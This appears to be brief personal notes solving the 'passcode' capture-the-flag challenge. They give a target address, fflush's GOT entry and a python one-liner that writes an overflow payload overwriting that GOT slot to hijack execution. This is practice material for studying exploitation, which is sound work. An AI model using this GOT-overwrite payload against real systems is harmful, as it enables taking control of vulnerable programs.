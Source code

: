 # passcode

#what to write>>: 0x080485e3: 134514147

# where to write >> 0804a004  00000207 R_386_JUMP_SLOT   00000000   
fflush@GLIBC_2.0

python -c "print 'a'*96 + '\x04\xa0\x04\x08\n134514147\n10\n'" > tmp/test
